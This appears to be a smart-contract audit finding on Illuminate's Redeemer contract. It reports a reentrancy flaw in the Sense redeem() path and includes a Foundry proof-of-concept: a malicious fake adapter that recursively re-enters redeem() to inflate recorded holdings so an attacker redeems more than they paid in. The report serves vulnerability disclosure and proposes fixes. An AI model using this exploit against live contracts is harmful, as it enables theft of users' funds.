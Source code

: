 Holmgren

high

# Reentrancy and using user-supplied address in Sense variant of redeem() allows for manipulating holdings and increasing redemption payouts

## Summary

Reentrancy and using user-supplied address in Sense variant of redeem() allows for manipulating holdings and increasing redemption payouts.

## Vulnerability Detail

One of the `redeem(...)` methods calls into an address supplied by the user (https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L370) and then updates `holdings` afterwards (https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L394). I suspect this can be exploited in many ways. One such way is to supply an address of a malicious contract that re-enters this `redeem()` method multiple times and in the final call gifts some amount of the underlier to the `Redeemer`. This gift will be accounted for multiple times - one time for each level of recursion.
 
## Impact

Any user can artificially inflate `Redeemer`'s `holdings` for a small price. Any holder of Illuminate tokens can do that to increase his redemptions.

## Code Snippet
PoC:
```diff
diff --git a/test/fork/FakeSenseAdapterAndDivider.sol b/test/fork/FakeSenseAdapterAndDivider.sol
new file mode 100644
index 0000000..4044163
--- /dev/null
+++ b/test/fork/FakeSenseAdapterAndDivider.sol
@@ -0,0 +1,65 @@
+// SPDX-License-Identifier: UNLICENSED
+pragma solidity 0.8.16;
+
+import 'src/interfaces/ISenseAdapter.sol';
+import 'src/interfaces/ISenseDivider.sol';
+import 'src/Redeemer.sol';
+
+/// Malicious contract that pretends to be SenseAdapter, SenseDivider and the
+/// compounding token
+contract FakeSenseAdapterAndDivider {
+    Redeemer redeemer;
+    address underlying;
+    uint256 maturity;
+    uint256 senseMaturity;
+    uint256 depth;
+
+    constructor (Redeemer _redeemer, address _underlying, uint256 _maturity, uint256 _senseMaturity, uint256 _depth) {
+        redeemer = _redeemer;
+        underlying = _underlying;
+        maturity = _maturity;
+        senseMaturity = _senseMaturity;
+        depth = _depth;
+    }
+
+    /* API expected from SenseAdapter */
+
+    function divider() external view returns (address) { return address(this); }
+    function target() external view returns (address) { return address(this); }
+
+    /* API expected from SenseDivider */
+
+    function redeem(address, uint256, uint256) external returns (uint256) {
+        if (depth == 0) {
+            // We are as deep as we want to get in our recursion. Transfer
+            // underlier to Redeemer to make it look like a redemption actually
+            // took place.
+            IERC20(underlying).transfer(
+                address(redeemer),
+                IERC20(underlying).balanceOf(address(this)));
+            return 0;
+        }
+        depth--;
+        // Call into Redeemer again passing this malicious contract as the
+        // SenseAdapter
+        redeemer.redeem(
+            6,
+            underlying,
+            maturity,
+            senseMaturity,
+            address(this)
+        );
+        return 0;
+    }
+
+    /* API expected from the compouding token */
+
+    function balanceOf(address) external pure returns (uint256) { return 0; }
+    function transferFrom(address, address, uint256) pure external returns (bool) {
+        return true;
+    }
+    function unwrap(uint256) external pure returns (uint256) { return 0; }
+    function transfer(address, uint256) external pure returns (bool) {
+        return true;
+    }
+}
diff --git a/test/fork/Redeemer.t.sol b/test/fork/Redeemer.t.sol
index 5866ea2..e2b4267 100644
--- a/test/fork/Redeemer.t.sol
+++ b/test/fork/Redeemer.t.sol
@@ -11,6 +11,7 @@ import 'src/Lender.sol';
 import 'src/Converter.sol';
 
 import 'src/interfaces/ISenseDivider.sol';
+import 'test/fork/FakeSenseAdapterAndDivider.sol';
 
 /* Note we test many protocols by checking if underlying balance is gt 0, post-
 redemption. There might be a better way to approximate how much we expect.
@@ -340,16 +341,20 @@ contract RedeemerTest is Test {
         assertEq(IERC20(principalToken).balanceOf(address(l)), 0);
     }
 
-    function testSenseRedeem() public {
-        address principalToken = Contracts.SENSE_TOKEN;
+    function testSenseRedeem_exploit() public {
+        uint256 recursionDepth = 10;
+        address attacker = 0x7111F9Aeb2C1b9344EC274780dc9e3806bdc60Ef;
+        deployMarket(Contracts.STETH, 0);
+        address illuminateToken = mp.markets(Contracts.STETH, maturity, 0);
 
         uint256 settledTimestamp = Contracts.SENSE_MATURITY + 1 minutes;
 
-        // set timestamp between 3 and 6 hours after maturity
-        deployMarket(Contracts.STETH, 0);
-
-        // give lender principal tokens
+        // Attacker and a user both lent to Sense for half the startingBalance
         deal(Contracts.SENSE_TOKEN, address(l), startingBalance);
+        deal(illuminateToken, attacker, startingBalance/2, true);
+        deal(illuminateToken, msg.sender, startingBalance/2, true);
+        // In addition attacker will spend 1/10th of the startingBalance on this attack
+        deal(Contracts.WSTETH, attacker, startingBalance /recursionDepth);
 
         // set the timestamp within the settlement window for the series sponsor
         vm.warp(settledTimestamp);
@@ -364,14 +369,19 @@ contract RedeemerTest is Test {
 
         // approve redeemer to spend lender's tokens
         vm.startPrank(address(l));
-        IERC20(Contracts.SENSE_TOKEN).approve(address(r), startingBalance);
+        IERC20(Contracts.SENSE_TOKEN).approve(address(r), type(uint256).max);
         vm.stopPrank();
 
         vm.startPrank(address(r));
         IERC20(Contracts.WSTETH).approve(address(c), type(uint256).max);
         vm.stopPrank();
 
-        // execute the redemption
+        // Let the magic begin!
+        vm.startPrank(attacker);
+        IERC20(Contracts.WSTETH).approve(Contracts.WSTETH, type(uint256).max);
+        ILido(Contracts.WSTETH).unwrap(startingBalance/10);
+        
+        // Legitimate, honest redemption on Sense
         r.redeem(
             6,
             Contracts.STETH,
@@ -380,10 +390,45 @@ contract RedeemerTest is Test {
             Contracts.SENSE_ADAPTER
         );
 
-        // verify that the underlying is now held by the redeemer contract
-        assertGt(IERC20(Contracts.STETH).balanceOf(address(r)), 0);
-        // verify the lender no longer holds the principal token
-        assertEq(IERC20(principalToken).balanceOf(address(l)), 0);
+        // Attacker deploys a contract that will pretend to be Sense Adapter but
+        // actually does something nefarious:
+        // It re-enters Redeem.redeem() recursionDepth times. In the final
+        // call it will give all its underlying coins to the Redeemer
+        // - to make it look like a real redemption has taken place.
+        FakeSenseAdapterAndDivider fakeSenseAdapter = new FakeSenseAdapterAndDivider(
+            r,
+            Contracts.STETH,
+            maturity,
+            Contracts.SENSE_MATURITY,
+            recursionDepth
+        );
+        // Attacker gives 1/10th of the startingBalance in the underlying coins
+        // to the fake contract
+        IERC20(Contracts.STETH).transfer(address(fakeSenseAdapter), startingBalance/10);
+        // Execute the attack
+        r.redeem(
+            6,
+            Contracts.STETH,
+            maturity,
+            Contracts.SENSE_MATURITY,
+            address(fakeSenseAdapter)
+        );
+
+        // Now Redeemer thinks that it holds more of the underlier than it actually does
+        assertGt(r.holdings(Contracts.STETH, maturity),
+                 IERC20(Contracts.STETH).balanceOf(address(r)));
+
+        // The attacker still holds his Illuminate tokens
+        assertEq(IERC20(illuminateToken).balanceOf(attacker), startingBalance/2);
+
+        // The attacker redeems them
+        r.redeem(Contracts.STETH, maturity);
+
+        // The attacker now has startingBalance of the underlier
+        assertGe(IERC20(Contracts.STETH).balanceOf(attacker), startingBalance);
+        // But the attacker spent only startingBalance/2 of the Illuminate
+        // tokens and startingBalance/10 of the underlier. The attacker got richer.
+        vm.stopPrank();
     }
 
     function testPendleRedeem() public {
```

## Tool used

Manual Review

## Recommendation

* Make the Redeemer contract non-reentrant. Or at least the various `redeem()` methods.
* Consider using only pre-approved addresses of the SenseAdapter.

